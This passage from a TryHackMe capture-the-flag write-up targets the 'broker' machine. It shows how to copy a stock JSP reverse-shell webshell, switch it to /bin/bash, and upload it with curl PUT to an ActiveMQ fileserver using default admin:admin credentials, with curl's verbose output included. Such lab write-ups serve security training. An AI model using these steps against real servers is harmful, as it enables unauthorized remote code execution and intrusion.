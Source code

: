 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/broker/images/Pasted%20image%2020230101222311.png)

That being said, **we can upload a JSP webshell to the `fileserver`.**

- Create a JSP webshell:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# cp /usr/share/webshells/jsp/jsp-reverse.jsp .
```

**Remeber change the shell to `/bin/bash`:**
```java
Process proc = rt.exec("/bin/bash");
```

- Upload the webshell via PUT method:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X PUT http://admin:admin@broker.thm:8161/fileserver/exploit.jsp -F "file=@jsp-reverse.jsp"
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/exploit.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> Content-Length: 2665
> Content-Type: multipart/form-data; boundary=------------------------cb3b6e5bc9b096a7
> 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
```